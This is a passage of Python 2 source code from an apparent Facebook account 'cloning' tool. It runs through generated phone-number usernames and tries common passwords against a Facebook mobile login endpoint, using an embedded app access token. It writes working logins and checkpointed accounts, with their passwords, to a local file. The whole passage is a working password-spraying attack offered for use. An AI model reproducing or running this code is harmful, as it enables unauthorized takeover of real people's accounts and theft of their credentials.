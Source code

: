     elif peak == '0':
        sett()
    else:
        print '[!] Fill In Correctly'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Cloning Process Has Been Started')
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Trying Passwords Wait...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    print '\x1b[1;97m--------------------------------------------------'

    def main(arg):
        user = arg
        try:
            os.mkdir('anggaxd')
        except OSError:
            pass

        try:
            pass1 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass1
                okb = open('anggaxd/clone.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass1
                cps = open('anggaxd/clone.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1234554321'
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass2
                    okb = open('anggaxd/clone.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass2
                    cps = open('anggaxd/clone.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = '123456789'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')